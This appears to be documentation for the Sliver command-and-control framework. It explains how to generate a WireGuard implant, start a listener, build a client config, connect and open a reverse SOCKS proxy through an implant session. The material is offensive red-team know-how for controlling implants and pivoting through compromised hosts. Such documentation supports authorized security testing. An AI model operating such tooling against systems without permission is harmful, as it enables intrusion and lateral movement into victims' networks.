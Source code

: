 Currently reverse SOCKS is only supported over WireGuard C2.

## WireGuard SOCKS

In order to use `wg-socks` you'll need a WireGuard client, any client should work. However, we recommend using `wg-quick`, which is included in the `wireguard-tools` package available on most platforms (see [WireGuard](https://www.wireguard.com/install/) for more platforms):

* MacOS `brew install wireguard-tools`
* Ubuntu/Kali `sudo apt install wireguard-tools`

First generate a WireGuard C2 implant (using `generate --wg`), and then start a WireGuard listener:

```
sliver > wg

[*] Starting Wireguard listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   wg    udp       53
```

Next, using Sliver you can create WireGuard client configuration using the `wg-config` command (you can use `--save` to write the configuration directly to a file):

```
sliver > wg-config

[*] New client config:
[Interface]
Address = 100.64.0.16/16
ListenPort = 51902
PrivateKey = eMdqQ5zEF9Oflj+7wfyFQZjES02rfSBfZEN701FzmmQ=
MTU = 1420

[Peer]
PublicKey = HNFS0FydHkuCtEFPPFb3b2IW7iSmFajRJ2qSjifidiM=
AllowedIPs = 100.64.0.0/16
Endpoint = <configure yourself>
```

The only thing in the configuration file you'll need to change is the `Endpoint` setting, configure this to point to the Sliver server's WireGuard listener, and ensure to include the port number (by default UDP 53). Generally this will be the same value you specified as `--lhost` when generating the binary.

Make sure your WireGuard listener is running and connect using the client configuration:

```
$ wg-quick up wireguard.conf
```

Now that your machine is connected to the Sliver WireGuard listener, just wait for an implant to connect:

```
sliver > sessions

ID  Name           Transport  Remote Address     Hostname     Username  Operating System  Last Check-in                  Health
==  ====           =========  ==============     ========     ========  ================  =============                  ======
1   STUCK_ARTICLE  wg         100.64.0.17:53565  MacBook-Pro  jdoe      darwin/amd64      Wed, 12 Apr 2021 19:21:00 CDT  [ALIVE]
```

Interact with the session, and use `wg-socks` to create a SOCKS proxy!


